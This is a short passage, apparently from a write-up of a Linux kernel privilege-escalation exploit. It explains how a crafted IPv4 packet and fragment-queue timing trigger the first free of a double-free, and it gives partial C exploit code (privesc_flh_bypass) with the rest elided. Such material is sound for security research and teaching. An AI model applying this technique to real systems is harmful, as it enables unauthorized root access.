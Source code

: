 ```c
}
```

### Double-free (free 1)

In order to trigger the double-free, we send the IPv4 packet which satisfies the filter. This will cause the first free of the double-free. Then, it will send the packet to an IPv4 fragment queue (IFQ), until 999 seconds have passed or until the queue is complete (which we will complete when the 2nd free happened). 

```c
static void privesc_flh_bypass(struct shared_info *memdump_info)
{
    // ... (var declarations)
	struct ip df_ip_header = {
		.ip_v = 4,
		.ip_hl = 5,
		.ip_tos = 0,
		.ip_len = 0xDEAD,
		.ip_id = 0xDEAD,
		.ip_off = 0xDEAD,
		.ip_ttl = 128,
		.ip_p = 69,
		.ip_src.s_addr = inet_addr("1.1.1.1"),
		.ip_dst.s_addr = inet_addr("255.255.255.255"),
	};
	int child_pid;

    // ... (setup)

	pin_cpu(0);
	child_pid = fork();

	if (child_pid == 0) {
        // ... (more exploit stuff)
    } else {
#if CONFIG_FLC_BYPASS
		set_ipfrag_time(1);

        // ... (create double-free evasion packet, which will be freed 1 sec from now)

		// make sure df trigger packet doesn't get expired while waiting for skb5 to be freed
		set_ipfrag_time(999);
#endif

		df_ip_header.ip_id = 0x1337;
		df_ip_header.ip_len = sizeof(struct ip)*2 + 32768 + 24;
		df_ip_header.ip_off = ntohs((0 >> 3) | 0x2000);  // wait for other fragments. 8 >> 3 to make it wait or so?
		trigger_double_free_hdr(32768 + 8, &df_ip_header);

        // ... (more exploit stuff)
    }
    
    // ... (more exploit stuff)
}
```
